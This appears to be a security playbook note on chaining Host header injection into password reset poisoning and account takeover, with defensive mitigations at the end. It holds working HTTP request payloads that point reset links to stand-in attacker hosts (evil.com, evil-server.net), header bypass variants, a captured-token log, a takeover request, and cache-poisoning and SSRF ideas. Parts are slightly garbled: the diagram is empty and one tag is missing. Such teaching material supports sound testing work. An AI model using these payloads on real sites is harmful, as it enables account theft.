

# Vulnerability Chain: Host Header Injection -> Password Reset Poisoning -> Account Takeover

## Overview
This playbook explores a highly sophisticated and devastating attack vector where manipulating the HTTP `Host` header leads to a complete Account Takeover (ATO). By poisoning the password reset flow, an attacker forces the application to generate a legitimate password reset link that points to an attacker-controlled domain instead of the application's actual domain.

When the victim clicks the link in their email, their secret password reset token is unwittingly transmitted to the attacker. The attacker then uses this token on the legitimate site to reset the victim's password and compromise the account. 

This vulnerability arises from a fundamental misunderstanding of the HTTP protocol by developers: the `Host` header is entirely user-controlled and should never be trusted for generating absolute URLs in security-critical emails.

## 1. The Anatomy of the Chain

The success of this chain relies on how the backend application dynamically generates URLs for emails.

1. **Target Identification**: The attacker identifies the target user's email address or username (e.g., an Administrator account).
2. **Host Header Injection**: The attacker initiates a password reset request but intercepts the HTTP request to modify the `Host` header (or uses `X-Forwarded-Host`) to point to `attacker.com`.
3. **URL Generation Flaw**: The backend application blindly trusts the injected `Host` header and uses it to construct the reset link dynamically: `https://attacker.com/reset?token=XYZ123`.
4. **Email Delivery**: The application sends the poisoned link to the victim's email address. Because the email originates from the application's legitimate SMTP server, it bypasses spam filters.
5. **Victim Interaction**: The victim receives the email, assumes it's a legitimate reset (or gets socially engineered into clicking it), and clicks the link.
6. **Token Capture & ATO**: The victim's browser makes a GET request to `attacker.com`, handing over the `token` in the URL query parameters. The attacker intercepts the token, navigates to the real application, and resets the victim's password.

## 2. ASCII Diagram: Attack Architecture



## 3. Phase 1: Identifying the Vulnerability

To test for Host Header Injection, an attacker intercepts a standard HTTP request and modifies the `Host` header.

**Original Request:**
```http
GET / HTTP/1.1
Host: www.target.com
```

**Modified Request:**
```http
GET / HTTP/1.1
Host: evil.com
```

If the application responds with a redirect (301/302) pointing to `evil.com`, or if links in the HTML response base their absolute URLs on `evil.com` (e.g., `<link href="http://evil.com/style.css">`), the application is fundamentally vulnerable to Host Header Injection.

### 3.1 Bypassing Basic Defenses
Sometimes the server or WAF blocks requests if the primary `Host` header doesn't match the configured virtual host. Attackers can bypass this using alternative proxy headers that backend frameworks (like Spring, Django, Laravel) often trust natively:
- `X-Forwarded-Host: evil.com`
- `X-Host: evil.com`
- `Forwarded: host=evil.com`
- Providing duplicate Host headers.
- `Host: target.com:evil.com` (Using port injection)

## 4. Phase 2: Exploiting the Password Reset Flow

The attacker navigates to the "Forgot Password" functionality of the target application.

**The Malicious Request:**
```http
POST /api/v1/users/forgot-password HTTP/1.1
Host: evil-server.net
Content-Type: application/json

{"email": "admin@target.com"}
```

Alternatively, if the main `Host` header is blocked by the routing layer, the attacker injects via `X-Forwarded-Host`:
```http
POST /api/v1/users/forgot-password HTTP/1.1
Host: www.target.com
X-Forwarded-Host: evil-server.net
Content-Type: application/json

{"email": "admin@target.com"}
```

## 5. Phase 3: The Backend Flaw

Many web frameworks have helper functions to generate absolute URLs (e.g., `request.build_absolute_uri()` in Django, `url()` in Laravel). If not configured securely to use a hardcoded domain, these functions pull the domain name directly from the incoming HTTP request headers.

The backend generates an email that looks like this:
```text
Hello Admin,

We received a request to reset your password. 
Please click the link below to securely change your password:

https://evil-server.net/reset-password?token=a8b9c7d6e5f4g3h2i1

If you did not request this, please ignore this email.
```
The email originates from the legitimate `no-reply@target.com` address. It perfectly passes SPF, DKIM, and DMARC checks. It looks incredibly official, lending it extreme credibility in the eyes of the victim or security appliances.

## 6. Phase 4: Token Capture and Account Takeover

The attacker has an HTTP listener (like a Python `http.server` or Nginx) running on `evil-server.net`.
When the victim opens the email and clicks the link, their browser executes an HTTP GET request to the attacker's server.

**Attacker's Server Logs:**
```text
[10/Jun/2026:14:22:10 +0000] "GET /reset-password?token=a8b9c7d6e5f4g3h2i1 HTTP/1.1" 200 -
```

The attacker now possesses the valid, active, high-entropy password reset token. They immediately navigate to the legitimate application's reset endpoint before the victim realizes something is wrong.

**The Takeover Request:**
```http
POST /api/v1/users/reset-password HTTP/1.1
Host: www.target.com
Content-Type: application/x-www-form-urlencoded

token=a8b9c7d6e5f4g3h2i1&new_password=AttackerControlled123!
```

The server validates the token, updates the administrator's password in the database, and grants the attacker full access.

## 7. Advanced Variations

### 7.1 Web Cache Poisoning via Host Header
If the application uses a caching mechanism (like Varnish, Cloudflare, or Fastly), injecting the `Host` or `X-Forwarded-Host` header on a static page (like the homepage) might poison the cache.
If the cache stores the response containing links pointing to `evil.com`, every subsequent user visiting that page will be served the poisoned links. This can lead to massive cross-site scripting (XSS) if scripts are loaded from those links (`<script src="http://evil.com/app.js"></script>`), or phishing distribution.

### 7.2 Dangling Markup Injection in Reset Emails
If the application sanitizes the `Host` header but allows appending arbitrary query parameters that get reflected without encoding in the email body, an attacker might inject HTML tags into the email itself to exfiltrate the token via an unclosed `` tag, circumventing the need for Host manipulation.

## 8. Defensive Measures and Mitigation

### 8.1 Do Not Trust User-Supplied Headers
The root cause is trusting the `Host` or `X-Forwarded-Host` headers for critical business logic (like URL generation). Never use request headers to dictate the flow of security mechanisms.

### 8.2 Hardcode the Base URL
Applications must define a definitive base URL in their environment configuration file.
```python
# Django settings.py example
FRONTEND_URL = "https://www.target.com"
```
When generating emails, the application MUST concatenate the hardcoded `FRONTEND_URL` with the reset token, completely ignoring the HTTP request headers.

### 8.3 Validate the Host Header at the Web Server
Configure the web server (Nginx/Apache) to use strict virtual host routing. Ensure the application rejects any request where the `Host` header does not explicitly match the expected domain. Drop unrecognized hosts.

Drop or ignore `X-Forwarded-Host` entirely unless the application sits behind a strictly controlled and trusted reverse proxy, and even then, sanitize it thoroughly.

### 8.4 Token Expiration and Single Use
Ensure password reset tokens are strictly single-use and expire quickly (e.g., 15 minutes) to minimize the window of exploitation if a token is leaked.

## 9. Chaining Opportunities
- **Host Header -> Web Cache Poisoning**: Using the poisoned host to rewrite JavaScript source links in the cached application response, causing Stored XSS for all users.
- **Host Header -> SSRF**: Using internal hostnames in the Host header (e.g., `Host: internal-admin.local`) to force the external routing infrastructure or load balancers to forward the request to internal administrative panels.

## 10. Related Notes
- [[19 - HTTP Header Injections]]
- [[20 - Web Cache Poisoning Attacks]]
- [[02 - API2 — Broken User Authentication]]
- [[14 - Advanced Account Takeover Strategies]]
